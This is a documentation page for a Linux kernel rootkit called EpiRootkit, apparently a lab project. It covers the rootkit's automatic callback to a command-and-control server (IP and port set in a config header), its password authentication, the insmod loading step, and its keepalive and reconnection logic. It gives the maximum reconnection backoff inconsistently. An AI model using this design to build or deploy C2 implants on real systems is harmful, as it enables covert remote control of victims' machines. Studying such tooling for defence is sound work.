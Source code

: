 ```yaml
---
title: "Connection & Authentication"
description: "How the rootkit connects to C2 server and authenticates"
icon: "link"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 42
---
```


# Connection & Authentication

How EpiRootkit connects to the C2 server and handles authentication.

## Connection Process

### Automatic Connection
When the rootkit loads, it automatically:

1. **Starts connection thread** (`epirootkit_conn`)
2. **Attempts TCP connection** to configured C2 server
3. **Begins keepalive system** (60-second ping/pong)
4. **Handles reconnection** with exponential backoff

### Configuration
```c
// rootkit/core/config.h
#define C2_SERVER_IP "192.168.64.1"
#define C2_SERVER_PORT 4444
#define KEEPALIVE_INTERVAL_MS 60000
#define RECONNECT_DELAY_MS 5000
```

## Network Architecture

### Three-Layer System
1. **Connection Management** (`connection.c`) - High-level coordination
2. **Keepalive System** (`keepalive.c`) - Health monitoring
3. **Socket Management** (`socket.c`) - Low-level network operations

### Connection States
- `0` = DISCONNECTED
- `1` = CONNECTED  
- `2` = CONNECTING

## Authentication System

### How It Works
1. **C2 sends command**: `auth Client-1 password`
2. **Rootkit receives**: Plain text password
3. **Rootkit hashes**: Using SHA-512 kernel crypto API
4. **Compares hash**: Against stored hash in config
5. **Returns result**: SUCCESS or ERROR

### Implementation
```c
// Default password is "password" (SHA-512 hash stored in config)
#define PASSWORD_HASH "b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86"
```

### Security Features
- **Rate limiting**: 5 attempts per 60 seconds
- **Session timeout**: 1 hour automatic expiry
- **Secure hashing**: SHA-512 using kernel crypto API

## Live Demo

### 1. Start C2 Server
```bash
cd attacking_program && pnpm start
```

### 2. Load Rootkit
```bash
sudo insmod epirootkit.ko
```

**C2 server shows:**
```
[2025-05-25 16:13:09] New client connected: Client-1
[2025-05-25 16:13:09] Client-1 status: UNAUTHENTICATED
```

### 3. Check Connection
```bash
c2-server$ clients
# • Client-1 - UNAUTHENTICATED - Last seen: 6:13:09 PM
```

### 4. Authenticate
```bash
c2-server$ auth Client-1 password
# ✓ [2025-05-25 16:13:29] Authenticated
# SUCCESS: Authentication successful
```

### 5. Verify Authentication
```bash
c2-server$ clients
# • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
```

## Keepalive System

### Purpose
- **Detect disconnections**: Network failures, system crashes
- **Maintain connection**: Regular ping/pong messages
- **Trigger reconnection**: When connection lost

### How It Works
- **Ping interval**: Every 60 seconds
- **Timeout detection**: 30 seconds for response
- **Failure threshold**: 3 consecutive failed pings
- **Automatic reconnection**: Exponential backoff (5s → 10s → 20s → 40s → 60s max)

### Monitoring
```bash
# Check keepalive status from C2
c2-server$ keepalive Client-1
# Keepalive Status:
# Last ping sent: 2025-05-25 16:14:00
# Last pong received: 2025-05-25 16:14:00
# Failed ping count: 0
# Connection stable: YES
```

## Reconnection Handling

### Disconnection Detection
1. **Socket-level**: Immediate network failures
2. **Keepalive timeout**: No response to ping
3. **Send failures**: Failed command results

### Reconnection Process
1. **Detect disconnection**
2. **Wait with backoff**: 5s → 10s → 20s → 30s (max)
3. **Attempt reconnection**
4. **Reset authentication**: Must re-authenticate after reconnect
5. **Resume operations**
